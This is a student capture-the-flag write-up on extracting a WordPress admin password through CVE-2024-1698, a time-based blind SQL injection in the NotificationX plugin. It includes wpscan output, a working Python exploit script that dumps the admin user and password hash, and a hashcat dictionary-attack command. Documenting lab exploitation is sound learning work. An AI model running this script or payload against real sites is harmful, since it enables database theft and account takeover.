 # CTF Week #8 (SQL Injection)

## Recognition

In this CTF, the goal was to extract the admin password of a given WordPress website.

The website is hosted at http://44.242.216.18:5008. After accessing, we see the welcome page of the website of "SecureHosting", which points that they use high security technologies. Not much is very relevant in this page aside from a push notification on the right left corner, about a comment from a "concerned-hacker".

<p align="center" justify="center">
  <img src="./assets/CTF8/welcome.png"/>
</p>

The comment is on a post made by the admin. According to this user, they have cracked the admin password from the "n00b security firm" admin, and they point that the admin password starts with `$P$B`. They also put a link to the videoclip of the song [We Will Rock You](https://www.youtube.com/watch?v=-tJYN-eG1zk), by Queen.
The visitor can also leave a reply but, besides that, nothing major is found.

<p align="center" justify="center">
  <img src="./assets/CTF8/comment.png"/>
</p>

## CVE Research

We started by gathering information about the website, specifically the installed software. To gather additional information, we used the `wpscan` tool with the command: `wpscan --url http://44.242.216.18:5008/`.

The output, with irrelevant parts omitted for clarity, is shown below:

```
[+] URL: http://44.242.216.18:5008/ [44.242.216.18]
[+] Started: Sat Nov 16 22:22:53 2024

Interesting Finding(s):

[+] WordPress version 6.7 identified (Latest, released on 2024-11-12).
 | Found By: Rss Generator (Passive Detection)
 |  - http://44.242.216.18:5008/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/comments/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/sample-page/feed/, <generator>https://wordpress.org/?v=6.7</generator>

[i] Plugin(s) Identified:

[+] notificationx
 | Location: http://44.242.216.18:5008/wp-content/plugins/notificationx/
 | Last Updated: 2024-10-27T10:43:00.000Z
 | [!] The version is out of date, the latest version is 2.9.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 2.8.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt

```

As we can see, the `wpscan` tool identified that the NotificationX plugin was outdated (latest version: 2.9.2), which presented a possible attack vector.

Using the [CVE database](https://cve.mitre.org/), we queried for vulnerabilities affecting:

* WordPress version 6.7
* NotificationX version 2.8.1
* SQL Injection 

Performing this search, the most relevant vulnerability is `CVE-2024-1698`, which is a known vulnerability with a 9.8 CRITICAL CVSS score, that works on NotificationX plugin for WordPress in all versions up to and including 2.8.2 (patched in 2.8.3). The plugin is vulnerable to SQL Injections via the `type` parameter on the `notificationx/v1/analytics` endpoint.

This vulnerability can be used to obtain any information from the website database, but normally servers store the hash from the password instead of the password itself, so it is important to understand what hash policy do they use. The only type of information we currently have is that the admin password starts with `$P$B`. We can verify, after a quick Google search, we verify that the hash matches a [phpass](https://www.onlinehashcrack.com/how-phpass-hashing-algorithm-works.php) ("Portable PHP password hashing framework") hash, which is commonly used for PHP applications, including WordPress websites, and use the prefix `$P$` or `$H$` to identify the hash algorithm.

## Exploit

To exploit the vulnerability, we used the script found in this [GitHub repository](https://github.com/shanglyu/CVE-2024-1698).

#### Explanation

The exploit works by using blind SQL injection with a timing-based side-channel to infer information about the database. The vulnerability lies in the `type` parameter, which is passed into an SQL query without proper sanitization.

The attacker sends payloads that include the `SLEEP()` function to create a delay if a condition is true.
```sql
IF(ASCII(SUBSTRING((SELECT user_pass FROM wp_users WHERE id=1), <letter_position>, 1))=<letter>, SLEEP(10), NULL)-- -
```
It checks if `<letter_position>` character of the admin's password hash has an ASCII value `<letter>`, and, if it is true, it will perform a 10 second delay. Therefore, by going through each ASCII character in in creasing order, and assuming that the delay time is not reached with the previous requests, we character that matches the one in the database text will be the one being processed when the end of the delay is reached. The code from the repository automates this process.

The code for the attack is shown below: 
> Note: We changed the delay from `0.3` to `10`, since the server was relatively slow to respond, which made the assumption we mentioned previously not hold and the script guess the wrong characters.

```py
import requests
from sys import exit

delay_time = 10

url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

session = requests.Session()

query_user = "SELECT user_login FROM wp_users WHERE id=1"
query_pass = "SELECT user_pass FROM wp_users WHERE id=1"

def get_data(query,field_name):
    result = ""
    for char_position in range(1,40):
        for ascii_value in range(256):
            payload = {
                "nx_id" : 10,
                "type" : f"clicks`=IF(ASCII(SUBSTRING(({query}),{char_position},1)) = {ascii_value}, sleep({delay_time}),null)-- -"
            }
            response = session.post(url, data=payload)
            
            if response.elapsed.total_seconds() > delay_time:
                result += chr(ascii_value)
                print(result)
                if ascii_value == 0: #null byte
                    print(f"[*]{field_name} : {result}")
                    return result
                break

username = get_data(query_user, "Username")
password_hash = get_data(query_pass, "Password hash")
```

The script gave the following output:

<p align="center" justify="center">
  <img src="./assets/CTF8/result.png"/>
</p>

Here, we can see that the hashed admin's password is `$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10`.

## Reversing the Hash

Now that we know the password hash, we need to use it to find the password. Since we are talking about a phpass hash, we can use a program like `hashcat`, an advanced password recovery utility, which allows to reverse hashes through multiple methods.

We could try to perform a brufe-force attack, which would be inefficient. Instead, we can perform a dictionary attack to test for common password. As hinted in the hacker comment, we can use the `rockyou.txt` dictionary for this purpose, which we downloaded from this [link](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

From there, we placed the hash inside the file `hash.txt` and executed the following command: 

```bash
hashcat -O -m 400 -a 0 -o cracked.txt hash.txt rockyou.txt
```

The used flags signify:

  - `-O`: Enable optimized kernels (which limits password lengths)
  - `-m 400`: Specify the phpass hash type
  - `-a 0`: Perform a dictionary based attack
  - `-o cracked.txt`: Place the found password in the file `cracked.txt`

After executing the command, we find the admin password and successfully complete the CTF!

<p align="center" justify="center">
    <img src="./assets/CTF8/dehashed.png">
</p>